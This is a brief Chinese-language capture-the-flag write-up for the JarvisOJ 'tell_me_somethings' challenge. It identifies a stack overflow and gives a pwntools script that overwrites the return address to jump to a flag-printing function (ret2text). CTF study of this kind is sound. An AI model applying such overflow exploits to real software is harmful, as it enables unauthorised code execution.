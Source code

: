 ```yaml
---
title: "Jarvisoj_tell_me_somethings"
description: ""
date: 2023-04-07T17:59:44+08:00
lastmod: 2023-04-07T17:59:44+08:00
draft: false
images: []
type: docs
weight: 978
toc: true
---
```


## 0x01 分析

![3a66c953b853bdf07979dad5e1ed8f6e](images/3a66c953b853bdf07979dad5e1ed8f6e.png)  

简单的栈溢出

![a78f15079c4421b440a5d83be7554913](images/a78f15079c4421b440a5d83be7554913.png)  

有一个打印flag的函数，所以直接ret2text即可

## 0x02 Exploit

```python
from pwn import*
o = process("./pwn")
elf = ELF("./pwn")
good_game = elf.sym['good_game']
payload = b'a'*0x88 + p64(good_game)
o.sendline(payload)
o.interactive()

```

![1de2b1d1f48cb48006f13e2c74c63d46](images/1de2b1d1f48cb48006f13e2c74c63d46.png)  

自行调试
